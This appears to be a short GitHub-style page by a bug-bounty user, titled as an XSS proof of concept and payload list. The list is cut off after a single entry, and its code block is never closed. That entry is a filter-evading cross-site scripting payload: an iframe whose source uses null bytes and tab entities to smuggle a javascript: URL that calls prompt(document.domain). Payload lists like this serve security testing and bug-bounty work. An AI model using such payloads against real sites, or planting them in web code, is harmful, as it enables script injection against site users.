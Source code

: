 ### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(document.domain)&Tab;"%00>




#### xtyphonx


